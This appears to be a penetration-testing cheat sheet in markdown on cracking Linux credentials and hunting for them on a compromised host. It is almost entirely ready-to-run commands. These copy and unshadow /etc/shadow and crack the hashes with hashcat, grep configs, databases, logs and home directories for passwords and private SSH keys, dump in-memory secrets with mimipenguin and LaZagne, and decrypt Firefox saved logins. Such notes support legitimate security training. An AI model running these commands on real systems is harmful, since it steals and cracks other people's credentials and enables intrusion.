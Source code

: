 ### Content
- [Cracking Linux Credentials](#cracking-linux-credentials)
- [Credential Hunting](#credential-hunting)
---
## Cracking Linux Credentials
If the attacker had admin privileges over the system to access `shadow` and `passwd` files.
1. Unshadow
	``` bash
	$ sudo cp /etc/passwd /tmp/passwd.bak
	$ sudo cp /etc/shadow /tmp/shadow.bak
	$ unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
	```
2. Hashcat - Cracking Unshadowed Hashes
	``` bash
	hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
	```

> [!Note]
> In case of using MD5 hashing algorithm, Collect the hashes into a file, one hash value per line, then use the next command to crack them.
> `hashcat -m 500 -a 0 md5-hashes.list rockyou.txt`

---
## Credential Hunting
There are man resources than can contain credentials:
- Files:
	``` bash
	# Configs
	for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
	# Search for specific words inside the config file (ex: user, password, pass)
	for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
	
	# Databases
	for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
	
	# Notes
	find /home/* -type f -name "*.txt" -o ! -name "*.*"
	
	# Scripts
	for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
	
	# Cronjobs
	find /etc -type d -name '*cron*' -exec sh -c 'echo "Parent Directory: $1"; ls -lah "$1"' sh {} \;
	ls -la /etc/cron.*/
	
	# SSH Keys
	# Files that contain a private SSH key
	grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
	# Files that contain a public SSH key
	grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
	```
- Logs
	``` bash
	# Some strings we can use to find interesting content in the logs
	for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep \
	"accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" \
	$i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep \
	"accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
	```
- `.bash_history` on the user home directory.
- Memory and Cache
	- [mimipenguin](https://github.com/huntergregal/mimipenguin) can be used to dump credentials from the running processes and memory.
		``` bash
		$ sudo python3 mimipenguin.py # or sudo bash mimipenguin.sh
		```
	- [LaZagne](https://github.com/AlessandroZ/LaZagne/tree/master) can be used to dump credentials from various services.
		``` bash
		$ python3 laZagne.py all
		```
- Browsers
	- `Mozilla Firefox` browser stores the credentials encrypted in a hidden folder.
		``` bash
		$ ls -l .mozilla/firefox/ | grep default 
		
		drwx------ 11 user user 4096 Jan 28 16:02 1bplpd86.default-release
		drwx------  2 user user 4096 Jan 28 13:30 lfx3lvhb.default
		
		cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
		```
		- The tool [Firefox Decrypt](https://github.com/unode/firefox_decrypt) is excellent for decrypting these credentials
			``` bash
			python3.9 firefox_decrypt.py
			```
		- We can also use [LaZagne](https://github.com/AlessandroZ/LaZagne/tree/master) with `browsers` flag
			``` bash
			python3 laZagne.py browsers
			```

